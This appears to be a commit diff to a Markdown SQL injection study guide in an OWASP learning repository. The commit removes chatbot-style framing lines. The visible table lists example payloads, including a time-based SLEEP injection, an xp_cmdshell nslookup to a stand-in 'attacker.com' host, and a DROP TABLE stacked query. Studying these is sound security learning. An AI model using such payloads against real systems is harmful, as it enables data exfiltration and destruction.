

Before and after one commit to Ali-hey-0/owasp, a Markdown page: week1/SQL_Injection/sql.md, 2 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version.

```diff
--- a/week1/SQL_Injection/sql.md
+++ b/week1/SQL_Injection/sql.md
@@ -1,6 +1,4 @@
-Alright Ali — let’s go **deep** into **SQL Injection (SQLi)** so you understand it from the absolute basics to advanced exploitation and defense. This will be a **full-spectrum guide** — concepts, types, examples, attack chains, and prevention.
 
----
 
 ## 📌 1. What is SQL Injection?
 
@@ -964,6 +962,4 @@ The attacker exfiltrates data via external channels (e.g., DNS, HTTP requests) w
 | **Time-Based Blind**    | Induces delays                    | `' AND IF(1=1, SLEEP(5), 0)--`                            |
 | **Out-of-Band**         | Exfiltrates via external channels | `'; EXEC xp_cmdshell('nslookup attacker.com')--`          |
 | **Second-Order**        | Stored input executed later       | Username:`admin'--`                                       |
-| **Stacked Queries**     | Executes multiple statements      | `'; DROP TABLE users;--`                                  |
-
-Would you like a deeper dive into any specific type or its exploitation?
+| **Stacked Queries**     | Executes multiple statements      | `'; DROP TABLE users;--`
```
